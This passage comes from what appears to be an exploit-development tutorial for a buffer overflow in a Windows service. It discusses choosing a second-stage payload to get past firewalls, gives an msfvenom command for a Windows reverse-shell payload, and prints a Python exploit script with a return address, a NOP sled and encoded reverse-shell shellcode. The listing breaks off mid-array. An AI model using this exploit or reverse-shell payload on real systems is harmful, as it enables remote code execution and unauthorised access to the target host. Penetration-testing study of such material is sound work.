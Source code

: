 5) Choose second stage payload

With execution redirected in both cases, the last step is to choose our second stage payload and swap out our shellcode. The payload will depend on many different things, such as our buffer size, and our 
targets configuration.
If we are breaching a target's external perimieter, there will likely be a firewall in place. Opening up a port will most likely get flagged as malicious behavior, which may just crash the service and eliminate
our chances of exploiting the target again. Even if the code executes succesfully, the port may remain blocked by a firewall at the perimeter which again would eliminate our chances of getting in.

A reverse shell is usually prefered. However, outbound connections may still be flagged as suspicious, or could also have connections to the destination port blocked. Consider what else is available. Is SSH
or remote desktop enabled? is the service running as a privileged user? If so, perhaps adding a user will suffice. There will be times when pre-packaged shellcode such as that generated by metasploit will not
work, forcing us to think creatively. Before launching your exploit against a production target, consider what a failed exploit will mean to your client and to the test.
Replicate the target as closely as possible first in a lab, and only once you are absolutely certain of your targets configuration and reliability of your exploit launch it.   

6) r00t dance

Lets generate a reverse shell payload with msfvenom, remembering to encode the payload and define our badchars. The command I used is the following:

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=445 -e x86/shikata_ga_nai -b \x00\x25\x26\x27\x2b -f c`

This resutls in a payload that is 351 bytes which will fit in the buffer we created in our shell exploit. My finished Shell code exploit will look like this:

``` ruby
#!/usr/bin/python

import socket
import sys

#Bad Chars= \x25\x26\x27\x2b\x00
#PUSH ESP, RET 0x61c5203b

EIP= "\x3b\x20\xc5\x61" #PUSH ESP, RET 0x61c5203b

if len(sys.argv) < 2:
	print "Usage: python EFS.py [IP]\n"
	print "i.e python  EFS.py 192.168.56.101\n"
	exit(1)

Buffer = "\x90"*3712

#msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.56.1 LPORT=445 -e x86/shikata_ga_nai -b \x00\x25\x26\x27\x2b -f c
Shell=( #352 bytes
"\xba\x20\xb3\xd2\x36\xdb\xd8\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xce\x4f\x30\xc3\xf2\x58\x37"
"\x2c\x0a\x99\x58\xa4\xef\xa8\x58\xd2\x64\x9a\x68\x90\x28\x17"
"\x02\xf4\xd8\xac\x66\xd1\xef\x05\xcc\x07\xde\x96\x7d\x7b\x41"
"\x15\x7c\xa8\xa1\x24\x4f\xbd\xa0\x61\xb2\x4c\xf0\x3a\xb8\xe3"
"\xe4\x4f\xf4\x3f\x8f\x1c\x18\x38\x6c\xd4\x1b\x69\x23\x6e\x42"
"\xa9\xc2\xa3\xfe\xe0\xdc\xa0\x3b\xba\x57\x12\xb7\x3d\xb1\x6a"
"\x38\x91\xfc\x42\xcb\xeb\x39\x64\x34\x9e\x33\x96\xc9\x99\x80"
"\xe4\x15\x2f\x12\x4e\xdd\x97\xfe\x6e\x32\x41\x75\x7c\xff\x05"
"\xd1\x61\xfe\xca\x6a\x9d\x8b\xec\xbc\x17\xcf\xca\x18\x73\x8b"
"\x73\x39\xd9\x7a\x8b\x59\x82\x23\x29\x12\x2f\x37\x40\x79\x38"
"\xf4\x69\x81\xb8\x92\xfa\xf2\x8a\x3d\x51\x9c\xa6\xb6\x7f\x5b"
```